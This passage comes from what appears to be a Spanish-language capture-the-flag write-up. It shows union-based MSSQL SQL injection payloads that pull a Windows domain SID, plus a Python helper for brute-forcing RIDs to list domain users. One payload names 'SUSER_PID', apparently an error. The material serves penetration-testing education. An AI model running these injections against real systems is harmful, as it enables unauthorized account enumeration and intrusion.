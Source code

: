 Esto nos mostrara el resultado, pero en formato **unicode**, el mismo que estamos utilizando para hacer la inyección **SQL**:
```
> test' union select 1,SUSER_SID('MEGACORP\Administrator'),3,4,5-- -
[
    {
        "id": 1,
        "name": "\u0001\u0005\u0000\u0000\u0000\u0000\u0000\u0005\u0015\u0000\u0000\u0000\u001c\u0000\u00d1\u00bc\u00d1\u0081\u00f1I+\u00df\u00c26\u00f4\u0001\u0000\u0000",
        "position": "3",
        "email": "4",
        "src": "5"
    }
]
```

---------
#### Obtaining domain RIDs through SQL injection

Podemos convertir el formato **unicode** a hexadeciaml de la siguiente forma:
```
> 		test' union select 1,(select sys.fn_varbintohexstr(SUSER_PID('MEGACORP\Administrator'))),3,4,5-- -
```

Esto nos da como resultado una mezcla del **SID** y el **RID**. Los primeros 48 caracteres pertenecen al **SID**, los caracteres restandes pertenecen al **RID**. Vamos a separar los ultimos caracteres de dos en dos y borrar los *0* que este acompañados de otro *0*. Una vez hecho esto, le tenemos que dar la vuelta a la cadena restante. Un ejemplo de como seria:
```
0x01f4
```

Ahora podemos ver a quien pertenece este **PID** con la forma inversa:
```
> test' union select 1,(select SUSER_SNAME(<PID>)),3,4,5-- -
```

Podemos ir fuzzeando por los ultimos caracteres, de tal forma que usando **python3** transformamos el decimal ( el primero fue 500 )  a hexadecimal:

```python
>> hex(500)
'0x1f4'
# El resultado final es -> f401
>> hex(501)
'0x1f5'
# El resultado final es -> f501
```

---------
#### Applying brute-force attack (SID = SID+RID) to obtain existing domain users [Python Scripting]  

Lo que vamos hacer ahora es hacer un pequeño ajuste al script en python que habiamos hecho para automatizar el descubrimiento de usuarios a nivel de dominio:
```python
def getRID(x):

	rid_hex = hex(x).replace('x', '')
	list = []
	
	for character in rid_hex:
		list.append(character)

	rid = list[2] + list[3] + list[0] + list[1]
	return rid

```